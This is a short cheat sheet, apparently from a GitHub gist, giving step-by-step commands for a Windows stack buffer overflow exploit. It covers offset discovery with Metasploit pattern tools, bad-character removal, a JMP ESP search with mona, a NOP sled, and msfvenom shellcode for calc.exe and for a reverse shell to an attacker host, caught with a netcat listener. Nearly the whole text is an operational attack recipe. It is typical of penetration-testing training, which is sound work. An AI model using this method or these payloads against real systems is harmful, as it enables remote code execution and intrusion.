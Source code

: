 
[source](https://gist.github.com/eliasrmalik/78f1f16cca36d55e2b52045b9dd29b0a)

* Run: /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <APPEND_SIZE>

* Insert this unique string into your PoC script and run, copy the EIP number

* Run: /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <APPEND_SIZE> -q <EIP>

* Take the offset figure and append to your buffer:
	"A" * <OFFSET_FIGURE> 
   
* Include  four bytes per below to confirm you have control of the ESP:
	"B" * 4

* Add trailing padding to the end of your buffer to uniform its size (Assuming a Python PoC): 
	buffer += "D" * (Initial_Fuzz_Value - len(buffer))

* Append bad characters to your PoC. A list of bad characters is  available here: ~~https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/~~ https://github.com/D4nk0St0rM/_d4nk0_ethical_hacking_/blob/main/buffer_overflow/badchars.md

* Right click the ESP in the Registers Tab and click "Follow in dump". Find and eliminate all the bad characters in your hex dump

* Run: "!mona modules"* in Immunity Debugger to find a suitable JMP ESP (Tell tale ones are those with ASLR and Rebase set to false). Once found: 

* Run: "!mona find -s "\xFF\xE4" -m <JMP_ESP's File/DLL name> (Ensure the selected file does not contain any bad characters in its address) 

* Add this JMP ESP to buffer. (Remember little endian if the target is x86 architecture!).

* Append NOP_SLEDs to the buffer:
	buffer += "\x90" * 25

* Generate and append calc.exe shellcode to the buffer:
	msfvenom -p windows/exec -b 'BADCHARS' -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread

* Generate and append a reverse shell to the buffer:
	msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=1234 EXITFUNC=thread -f python -b "\xXX\xXX<BARCHARS>" (If this stage-less payload does not work, consider a staged payload)

* Your final buffer should be ordered: OFFSET + JMP_ESP + NOP_SLEDs + Shellcode + Trailing Padding

* Run: "nc -lvp 1234" and execute your payload on the target while listening
